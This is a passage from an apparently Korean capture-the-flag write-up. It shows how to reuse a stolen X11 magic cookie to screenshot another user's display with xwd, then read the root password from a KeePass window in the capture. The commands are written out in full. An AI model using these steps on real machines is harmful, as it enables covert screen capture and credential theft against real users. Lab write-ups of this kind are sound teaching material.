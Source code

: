 ```bash
# in target machine
$ echo "AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABDdylLf287BoiIFuDv67apd" | base64 -d > /tmp/.Xauthority
$ export XAUTHORITY=/tmp/.Xauthority
$ xwd -root -display :0 > /tmp/screen.xwd

# root: select root window
# display: specify server to connect to
```
0번 디스플레이 화면이 ```screen.xwd``` 파일로 저장이 됩니다.
해당 파일을 칼리리눅스로 옮겨 온뒤, ```convert``` 명령어로 png 파일로 변환하면 다음과 같이 캡쳐된 화면을 볼 수 있습니다.

```bash
convert screen.xwd screen.png
```

화면의 내용은 keepass 프로그램을 통해서 비밀번호를 관리하는 화면이고, 해당화면을 통해서 root 계정의 비밀번호를 획득하는 시나리오 입니다.

![image](https://user-images.githubusercontent.com/33647663/218160241-2d15e5b6-a887-482f-a145-b27f33e78a42.png)
